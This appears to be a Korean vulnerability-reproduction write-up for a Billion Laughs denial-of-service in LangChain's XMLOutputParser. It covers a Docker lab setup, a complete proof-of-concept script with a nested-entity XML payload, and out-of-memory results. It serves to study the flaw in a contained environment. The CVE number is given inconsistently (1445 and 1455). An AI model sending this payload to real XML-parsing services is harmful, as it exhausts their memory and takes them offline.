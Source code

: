 # Billion laughs Attack in LangChain (CVE-2024-1445)

영향을 받는 버전: langchain >=0,<0.1.14  
해당 취약점은 XXE 익스플로잇의 일종인 Billion Laughs Attack을 가능하게 한다.

## Description

**CVE-2024-1455**는 XXE 익스플로잇의 일종인 Billion Laughs Attack을 가능하게 한다.  
Billion Laughs Attack은 XML 파싱 프로세스를 악용한 XXE 취약점의 한 유형이다. 해당 공격은 XML 문서 내에 여러 계층의 엔티티를 중첩하여 XML 파서가 엔티티를 확인하고 확장하는 과정에서 과도한 CPU 및 메모리 리소스를 소모하게 만든다. 이러한 과도한 리소스 사용은 서비스 거부 공격(DoS)으로 이어져 영향을 받는 시스템의 가용성과 성능에 심각한 영향을 미친다.

---

## Environmental Construction

* 취약한 버전의 langchain과 해당 버전에 맞는 패키지를 찾아 `requirements.txt`를 구성한다.
* Langchain의 XMLOutputParser를 익스플로잇 할 수 있는 `poc.py` 작성한다.
* 이후 `Dockerfile`과 `docker-compose.yml` 파일 작성한다.

---

## Proof of Concept

```
docker compose up
```
* 해당 명령으로 `docker-compose.yml` 파일을 실행한다.
  
```
from langchain.output_parsers import XMLOutputParser


payload="""<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>"""

parser = XMLOutputParser()

parser.parse(payload)
```
* 이후 해당 `poc.py`가 실행된다.

---

## Output
* Successful Exploit:  
![image](https://github.com/user-attachments/assets/a16acad6-4456-4c93-a7bc-08b139f4db3f)
* 해당 이미지처럼 137 코드가 반환되면서 컨테이너가 종료되면 익스플로잇 성공.
* 137 코드는 Dokcer의 OOM(Out of Memory) 에러로 Billion Laughs Attack으로 인해 컨테이너의 메모리가 모두 소모되어 OOM 에러가 발생한다.
<br>

![after2](https://github.com/user-attachments/assets/a9a85804-2508-4f2b-99ee-26c0a7cbc1ac)
* 보다 자세한 결과 확인을 위해 `Dockfile`에서 `/bin/bash`를 실행하게 수정 후 `htop`으로 리소스 상태를 확인해본다.
* `poc.py` 실행 결과 CPU 사용량과 메모리 소비량이 급격히 늘어나는 것을 볼 수 있다.
<br>

![after3](https://github.com/user-attachments/assets/e54a2d39-152c-4a4a-8455-db201cf5386b)
* 메모리 과다 사용으로 인해 컨테이너에서 해당 프로세스를 SIGKILL로 종료한다.



